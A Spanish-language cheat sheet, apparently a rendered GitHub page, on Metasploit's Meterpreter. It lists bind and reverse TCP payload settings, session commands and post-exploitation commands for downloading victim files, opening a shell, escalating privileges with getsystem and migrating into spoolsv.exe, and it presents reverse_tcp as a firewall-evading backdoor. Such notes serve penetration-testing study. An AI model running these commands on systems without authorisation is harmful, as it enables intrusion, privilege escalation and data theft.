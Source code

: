 <h4 id="meterpreter-2">Conexiones de Meterpreter</h4>

-	**bin_tcp:** corre un proceso de servidor en la máquina objetivo, que espera por una conexión desde la máquina atacante.
-	**reverse_tcp:** realiza una conexión TCP de vuelta hacia la máquina atacante (puede ser usado como backdoor para evadir dispositivos firewall).

<h4 id="meterpreter-3">Comandos de MSFconsole sobre Meterpreter</h4>

```
search meterpreter: Buscar los payloads de Meterpreter
set payload [meterpreter_payload]: Configurar payload de Meterpreter
sessions -l: Ver las sesiones abiertas
sessions -i [session_id]: Cambiar a una sesión Meterpreter abierta
```

<h4 id="meterpreter-4">Comandos de Shell Meterpreter</h4>

```
background: Cambiar de sesión Meterpreter por la consola (sin cerrar la sesión)
sysinfo: Obtener información del sistema
ifconfig: Ver configuración de red de la víctima
route: Ver tabla de rutas
pwd: Saber el directorio actual
cd [path]: Cambio de directorio
ls: Listar archivos y directorios
download [remote_file] [local_path]: Descargar archivos
upload [local_file] [remote_path]: Cargar archivo
shell: Correr una shell del OS víctima
getuid: Obtener información del usuario actual
getsystem: Corre una rutina para escalar privilegios (en Windwos el usuario system es el que tiene más privilegios)
```
<h4 id="meterpreter-5">Ejemplo payload reverse_tcp Windows</h4>

`set payload windows/meterpreter/reverse_tcp`

<h4 id="meterpreter-6">Ejemplo payload reverse_tcp Linux</h4>

`set payload linux/x86/meterpreter/reverse_tcp`

<h4 id="meterpreter-7">Ejemplo payload bin_tcp Windows</h4>

`set payload windows/meterpreter/bin_tcp`

<h4 id="meterpreter-8">Ejemplo payload bin_tcp Linux</h4>

`set payload linux/x86/meterpreter/bin_tcp`

<h4 id="meterpreter-9">Ejemplo de migración a proceso estable</h4>

> Se recomienda el uso de spoolsv.exe (se debe indicar el PID).

```
ps
migrate 1320
```

<h4 id="meterpreter-10">Ejemplo de configuración de ruta estática</h4>
